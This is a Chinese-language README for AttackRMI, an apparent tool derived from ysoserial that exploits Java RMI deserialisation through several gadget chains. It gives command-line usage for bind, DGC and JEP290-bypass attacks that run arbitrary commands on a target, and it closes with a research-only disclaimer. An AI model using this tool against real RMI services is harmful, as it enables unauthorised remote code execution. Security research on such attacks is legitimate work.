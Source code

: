 # AttackRMI

## 介绍

该项目参考 ysoserial 项目中 RMI 相关代码，对 RMI 利用实现回显，目前支持的链有`CommonsCollections2`、`CommonsCollections11`、`Jdk7u21`，其中 Jdk7u21 在 bind 和 DGC 两种利用方式中不支持回显

bind 攻击：

```bash
java -jar AttackRMI.jar [payloadType] [ip] [port] "[command]"
```

DGC 攻击：

```bash
java -cp AttackRMI.jar exploit.JRMPClient [payloadType] [ip] [port] "[command]"
```

Bypass JEP290 利用方式：

```bash
java -cp AttackRMI.jar exploit.JRMPListener [payloadType] [localIp] [localPort] "[command]"
```

## 免责声明

本项目仅面向安全研究与学习，禁止任何非法用途

如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果

除非您已充分阅读、完全理解并接受本协议，否则，请您不要使用本项目